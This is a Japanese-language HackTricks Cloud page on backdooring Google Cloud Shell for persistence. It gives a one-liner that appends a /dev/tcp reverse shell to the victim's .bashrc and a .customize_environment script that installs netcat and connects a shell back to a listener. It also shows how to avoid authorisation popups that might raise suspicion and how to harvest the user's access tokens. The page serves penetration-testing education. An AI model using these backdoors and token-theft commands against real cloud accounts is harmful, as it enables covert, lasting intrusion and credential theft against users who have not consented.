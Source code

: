 # GCP - Cloud Shell Persistence

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricks をサポートする他の方法:

* **HackTricks で企業を宣伝したい**または **HackTricks をPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスワッグ**](https://peass.creator-spring.com)を手に入れる
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)コレクションを見つける
* **💬 [Discordグループ](https://discord.gg/hRep4RUj7f)**または[telegramグループ](https://t.me/peass)に**参加**するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**する。
* **HackTricks**と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks)にPRを提出して、**あなたのハッキングトリックを共有**する
*
*
*
* github リポジトリ。

</details>

## Cloud Shell

詳細については、以下をチェックしてください:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 永続的なバックドア

[**Google Cloud Shell**](https://cloud.google.com/shell/) は、ブラウザから直接クラウドリソースに対するコマンドラインアクセスを提供し、関連コストは一切かかりません。

**Google Cloud Shell** には、**webコンソール**からアクセスするか、**`gcloud cloud-shell ssh`** を実行してアクセスできます。

このコンソールには、攻撃者にとって興味深い機能がいくつかあります:

1. **Google Cloud にアクセス権を持つ任意のユーザー**は、完全に認証された Cloud Shell インスタンスにアクセスできます（サービスアカウントは、組織の所有者であっても可能です）。
2. そのインスタンスは、**活動がない場合でも少なくとも120日間はホームディレクトリを維持**します。
3. そのインスタンスの活動を監視するための**組織の機能はありません**。

これは基本的に、攻撃者がユーザーのホームディレクトリにバックドアを設置し、ユーザーが少なくとも120日ごとにGC Shellに接続する限り、バックドアが生き残り、攻撃者が次に実行されるたびにシェルを取得できることを意味します。以下を実行するだけで。
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

ホームフォルダにはもう1つ**`.customize_environment`**というファイルがあり、存在する場合は、ユーザーが**クラウドシェル**にアクセスするたびに**実行**されます（前のテクニックと同様）。ユーザーがクラウドシェルを「頻繁に」使用する限り、以前のバックドアまたは次のようなバックドアを挿入して持続性を維持します。
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
**認証が必要なアクションが初めて実行されるとき**には、ユーザーのブラウザにポップアップ認証ウィンドウが表示されます。このウィンドウを受け入れる必要があります。予期しないポップアップが表示されると、疑念を抱かれ、使用されている持続性手法が潜在的に危険にさらされる可能性があります。
{% endhint %}

これは、クラウドシェル（攻撃者として）から`gcloud projects list`を実行した際の、ブラウザのユーザーセッションで表示されるポップアップです：

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

ただし、ユーザーがクラウドシェルを積極的に使用している場合、ポップアップは表示されず、ユーザーのトークンを**収集できます**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### SSH接続の確立方法

基本的に、以下の3つのAPIコールが使用されます:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (ローカルで作成した公開鍵を追加する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (インスタンスを起動する)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (Google Cloud ShellのIPアドレスを教えてくれる)

しかし、[https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key) で詳細情報を見つけることができます。

## 参考文献

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)
